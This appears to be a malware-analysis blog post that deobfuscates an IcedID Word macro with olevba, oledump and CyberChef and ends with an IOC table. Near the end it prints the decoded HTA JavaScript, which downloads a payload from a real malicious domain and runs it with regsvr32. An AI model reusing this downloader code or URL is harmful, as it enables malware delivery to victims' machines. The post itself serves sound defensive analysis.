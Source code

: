 ```yaml
---
layout: post
title:  "IcedId Maldoc"
---
```


Browsing through [AnyRun](https://app.any.run/tasks/3f121e8d-95d6-4c9f-90e2-bb57a4ddf697/), I found an interesting sample. 


Let's take a look at it.

If you don't have a copy of Office available, it's still easy to analyze with [OleTools](https://github.com/decalage2/oletools) and [CyberChef](https://gchq.github.io/CyberChef/). 

I always like to look inside the doc for any images. This helps me understand the lures used. CyberChef has a recipe to "Extract Files". You can use this to easily preview images. In this case, the image alone makes this *highly suspicious*. This is the traditional "This document was created in an earlier version of Word" lure.  


![18cad07a4fe5e160b924fb4818e3380e.png](/_posts/_resources/d9526c32abc848b597e66e2615191886.png)


Malicious Word documents typically do one of three things:

1. Execute macros
2. Link to a URL containing the malicious payload
3. Exploit Word itself, usually [CVE–2017–11882](https://blog.morphisec.com/microsoft-equation-editor-backdoor) 

Running `olevba -a ingresso.03.26.21.doc` performs triage analysis on the macro and highlights suspicious items. 

![648a2336d5d74ff831b7b742e17dd3b8.png](/_posts/_resources/5f24a20247d84cf7948244b0d9b71c69.png)

There are several things that stand out here that will guide our analysis. The macro:

1. Auto-executes on open
2. Creates a file
3. Executes a shell command
4. Contains encoded/obfuscated strings

To make understanding the macro code easier, I prefer to dump it out to a text file (`olevba ingresso.03.26.21.doc > macro.txt`) and open it up in Notepad++. I love Notepad++ for the language specific syntax coloring, and that selecting text will highlight it elsewhere in the document. These two things help a lot when deobfuscating scripts. 

I take a once over for the full macro, then focus in on one component I find most interesting. If you don't know where to start, the shell command is always a solid choice. 



![6f9193d37b7041b3fb47c3b8ab145ed1.png](/_posts/_resources/c5cb9f692a3040908c3e1e3840d87c3d.png)



What we can see here is that a `wscript.shell` object is stored in a variable called `documentViewTitle`. The `exec` [function](https://www.vbsedit.com/html/5593b353-ef4b-4c99-8ae1-f963bac48929.asp) of this object is then called with the arguments pulled from `ptrMem` and `WExceptionLink`, after using the `Replace()` function to remove the 1s used to obfuscate the code. Looking at these variables, they seem to source from some form object contained in the document. If we use the `oledump` tool, we can see this object.


![9bd3219588cd7345cb28fb79958f8631.png](/_posts/_resources/249176739ae042389500f2e49ed828bf.png)

If we select the appropriate streams, we see the command `c:\windows\explorer.exe c:\users\public\main.hta` come to light.


![a6898a7ea7b51b7543256fd913b14ecb.png](/_posts/_resources/7a0d96156ed2434ab552b1bde522c5a9.png)

Thinking back to our triage of the sample, this HTA file is likely the file that's created by the macro. Zeroing in on that code...



![3ee7508bf8e27fbdf56648d082c01463.png](/_posts/_resources/9380db033d3f4293a99640d326b16b92.png)


We can look up the documentation for the `CreateTextFile` [method](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createtextfile-method) and it tells us that the argument will be the filename, so `borderBorderEx` eventually deobfuscates to `main.hta`, but `queryProc` will be the contents of the file, and much more interesting. 

If we use Notepad++ to select the function `textboxTable` we can find the places it is called in the code, and analyze the contents of the second argument. The second argument to `textboxTable` is the contents of the HTA file. 


![9d44f30bd645a83a3e00fe2c93ae6954.png](/_posts/_resources/df31519e7eb34efd912ef21db61b3f17.png)

Let's follow `argumentExceptionButton` and see what its contents are.


![2c6b410657946e6282c9d47e5720bf9d.png](/_posts/_resources/c6656556ce9a4d74a4be68d974711a42.png)

Essentially, it's this huge word wrap of other variables concatenated. The variables are defined above, so we can do a find and replace - replacing the variable names with their content. Once you've finished with the tedious work, you'll see the HTA file contents. 


![fd36f4d06a247a2ffb08803d348ce962.png](/_posts/_resources/3f87bc7ed60845919527a7df8469cbd2.png)

Once you clean up this code a little, getting rid of the extraneous `+` and `"` symbols, you'll see a long string in the `<div>` tag. One of the things that immediately stands out is the character set and that it ends with an equals sign. Without taking the time to understand any of the decoding algorithm underneath, I have a strong suspicion that it's base64 encoded. Let's test in CyberChef. 


![8a013579e2ded609a263c08262e9c7ae.png](/_posts/_resources/5720f3a32c1c478895a2b0398523255e.png)

It definitely decodes properly, but it looks weird. Applying the "Reverse" recipe will put the characters in the correct order, resulting in the following code that will be executed by the HTA file.

```
new ActiveXObject("wscript.shell").run("regsvr32 c:\\users\\public\\collectionMemory.jpg");
var buttonPasteLeft = new ActiveXObject("scripting.filesystemobject");
try {
    buttonPasteLeft.deletefile("c:\\users\\public\\main.hta");
} catch(nextTrust) {}

var listboxTableRequest = new ActiveXObject("msxml2.xmlhttp");
listboxTableRequest.open("GET", "http://brown-craft-2018.com/fdvdd/sAyRdZ1iUxUFSEiaXlMxv4sYlMVcPX/Oz6qD6um7u2XDeRs0hvyB6/fFfWhs1ayr1Sp4kiHky8LFM/4Cr408QvrXy5Q9LFbjdzVx/naw15?id=bgZ5DeL6cVNx69&id=h6", false);
listboxTableRequest.send();
if (listboxTableRequest.status == 200)  {
    var documentRight = new ActiveXObject("adodb.stream");
    documentRight.open;
    documentRight.type = 1;
    documentRight.write(listboxTableRequest.responsebody);
    documentRight.savetofile("c:\\users\\public\\collectionMemory.jpg", 2);
    documentRight.close;
}
```

This HTA file will retrieve the remote file named `collectionMemory.jpg` and attempt to execute it with `regsvr32`. Unfortunately, by the time Any.Run or myself were able to get to it, it seems like this file no longer exists.


![9ea24f09d0b510a34031a3a537fba29d.png](/_posts/_resources/c324949225cb49aaa82ebafcd05456fb.png)


However, @reecDeep on [Twitter](https://twitter.com/reecdeep/status/1375385369462575106) reported a ***similar*** sample from a few days prior and the follow on payload was uploaded to [tria.ge](https://tria.ge/210326-g3jcevvnd6).


IOC Type|Value
---|------
filename|ingresso.03.26.21.doc
filename|c:\users\public\collectionMemory.jpg
filename|c:\users\public\main.hta
md5|ff39fc0c398db11d51982220d6b7b45c
sha256|d44d2da0f8cd163c6d36e4f71b35dcd21c76e639caff11cd94b005c6fad78ba5
domain|brown-craft-2018[.]com 
ip|45.150.67[.]40 






